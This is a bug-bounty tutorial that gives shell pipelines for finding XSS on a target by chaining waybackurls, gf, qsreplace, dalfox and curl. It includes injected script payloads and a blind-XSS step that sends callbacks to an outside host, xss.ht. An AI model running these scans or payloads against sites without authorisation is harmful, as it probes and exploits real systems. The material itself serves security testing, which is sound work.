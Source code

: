 # Automating XSS Detection Using Dalfox, WaybackURLs, and GF Patterns

## Prerequisites: Installing Go on Your Machine

Before proceeding, ensure that **Go** is installed on your system. You can install it using the following commands:

```bash
sudo apt install -y golang
export GOROOT=/usr/lib/go
export GOPATH=$HOME/go
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
source .bashrc
```

---

## Hunting Blind XSS Using Dalfox

To detect blind XSS vulnerabilities, follow these steps:

1. Use **WaybackURLs** to extract URLs for the target.
2. Use **GF patterns** to identify possible XSS-vulnerable parameters.
3. Utilize **Dalfox** to detect XSS.

### Execution Command:
```bash
waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && \
cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt
```

---

## Hunting Reflected XSS

To identify reflected XSS vulnerabilities, follow these steps:

1. Extract URLs using **WaybackURLs**.
2. Use **qsreplace** to inject payloads and analyze responses.

### Execution Command:
```bash
waybackurls testphp.vulnweb.com | grep '=' | qsreplace '"><script>alert(1)</script>' | \
while read host; do
    curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && \
    echo "$host \033[0;31m Vulnerable"
done
```

---

## Identifying Parameters That Do Not Filter Special Characters

The following command checks whether parameters accept special characters without proper sanitization:

```bash
echo "test.url" | waybackurls | grep "=" | tee waybackurls.txt
cat waybackurls.txt | egrep -iv ".(jpg|jpeg|js|css|gif|tif|tiff|png|woff|woff2|ico|pdf|svg|txt)" | \
qsreplace '"><()' | tee combinedfuzz.json && \
cat combinedfuzz.json | while read host; do
    curl --silent --path-as-is --insecure "$host" | grep -qs "\"><()" && \
    echo -e "$host \033[91m Vulnerable \e[0m \n" || \
    echo -e "$host \033[92m Not Vulnerable \e[0m \n"
done | tee XSS.txt
```

---

## Downloading the Required Tools

The following tools are required for this process:

| Tool | GitHub Repository |
|------|------------------|
| **Dalfox** | [Dalfox](https://github.com/hahwul/dalfox) |
| **WaybackURLs** | [WaybackURLs](https://github.com/tomnomnom/waybackurls) |
| **GF** | [GF](https://github.com/tomnomnom/gf) |
| **GF Patterns** | [GF Patterns](https://github.com/1ndianl33t/Gf-Patterns) |
| **qsreplace** | [qsreplace](https://github.com/tomnomnom/qsreplace) |

A complete script can be found here: [QuickXSS](https://github.com/theinfosecguy/QuickXSS)

---

## Contact Information

For any questions or further discussions, feel free to reach out on Twitter:

- [@g0t_rOoT_](https://twitter.com/g0t_rOoT_)
- [@Fani Malik](https://twitter.com/fanimalikhack)
- [@Faizee Asad](https://twitter.com/faizee_asad)
- [@Prince Prafull](https://twitter.com/princeprafull3)

---

*Enhanced and reformatted for HowToHunt repository by [remonsec](https://x.com/remonsec)*
